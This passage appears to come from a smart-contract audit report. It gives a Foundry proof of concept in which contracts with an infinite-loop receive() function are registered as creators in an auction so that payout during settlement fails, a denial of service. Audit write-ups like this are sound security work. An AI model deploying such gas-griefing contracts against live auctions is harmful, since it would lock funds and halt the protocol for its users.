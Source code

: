 >    receive() external payable
>    {
>        while (true)
>        {
>
>        }
>    }
>}
>```
>
>Then, please put the following code in `AuctionSettling.t.sol` and run the test (`import "forge-std/console.sol";` will be needed as well):
>
>```solidity
>    // this function creates an auction and wait for its finish
>    // if `toDoS` is true, it will create `100` creators and each creator will be a malicious contract that will
>    // run an infinite loop in its `receive()`
>    // if `toDoS` is false, it will create only `1` "honest" creator
>    function _createAndFinishAuction(bool toDoS) internal
>    {
>        uint nCreators = toDoS ? 100 : 1;
>        address[] memory creatorAddresses = new address[](nCreators);
>        uint256[] memory creatorBps = new uint256[](nCreators);
>        uint256 totalBps = 0;
>        address[] memory creators = new address[](nCreators + 1);
>        for (uint i = 0; i < nCreators + 1; i++)
>        {
>            if (toDoS)
>                creators[i] = address(new InfiniteLoop());
>            else
>                creators[i] = address(uint160(0x1234 + i));
>        }
>
>        for (uint256 i = 0; i < nCreators; i++) {
>            creatorAddresses[i] = address(creators[i]);
>            if (i == nCreators - 1) {
>                creatorBps[i] = 10_000 - totalBps;
>            } else {
>                creatorBps[i] = (10_000) / (nCreators - 1);
>            }
>            totalBps += creatorBps[i];
>        }
>
>        uint256 verbId = createArtPieceMultiCreator(
>            "Multi Creator Art",
>            "An art piece with multiple creators",
>            ICultureIndex.MediaType.IMAGE,
>            "ipfs://multi-creator-art",
>            "",
>            "",
>            creatorAddresses,
>            creatorBps
>        );
>
>        vm.startPrank(auction.owner());
>        auction.unpause();
>        vm.stopPrank();
>
>        uint256 bidAmount = auction.reservePrice();
>        vm.deal(address(creators[nCreators]), bidAmount + 1 ether);
>        vm.startPrank(address(creators[nCreators]));
>        auction.createBid{ value: bidAmount }(verbId, address(creators[nCreators]));
>        vm.stopPrank();